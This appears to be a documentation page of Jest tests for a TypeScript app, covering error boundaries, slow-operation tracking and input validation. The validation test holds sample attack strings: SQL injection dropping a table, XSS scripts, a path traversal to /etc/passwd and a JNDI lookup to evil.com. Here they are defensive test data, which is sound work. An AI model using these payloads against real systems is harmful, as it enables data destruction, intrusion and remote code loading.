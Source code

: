 ## Error Monitoring and Logging

### Crash Reporting
```typescript
// Test error boundary behavior
const ThrowError = () => {
  throw new Error('Component crashed');
};

const { getByText } = render(
  <GlobalErrorBoundary>
    <ThrowError />
  </GlobalErrorBoundary>
);

expect(getByText('Something went wrong')).toBeTruthy();
expect(crashlytics.recordError).toHaveBeenCalled();
```

### Performance Monitoring
```typescript
// Test slow operation detection
const slowOperation = jest.fn().mockImplementation(
  () => new Promise(resolve => setTimeout(resolve, 5000))
);

const startTime = Date.now();
await slowOperation();
const endTime = Date.now();

expect(endTime - startTime).toBeGreaterThan(4000);
expect(analytics.track).toHaveBeenCalledWith('slow_operation', {
  duration: endTime - startTime,
  operation: 'data_fetch'
});
```

## Security Error Handling

### Input Validation Security
```typescript
// Test malicious input detection
const securityTests = [
  "'; DROP TABLE users; --",
  "<script>alert('xss')</script>",
  "../../../etc/passwd",
  "javascript:alert('xss')",
  "${jndi:ldap://evil.com/a}"
];

securityTests.forEach(maliciousInput => {
  const result = validateUserInput(maliciousInput);
  expect(result.isSecure).toBe(false);
  expect(result.threats).toContain('POTENTIAL_ATTACK');
});
```
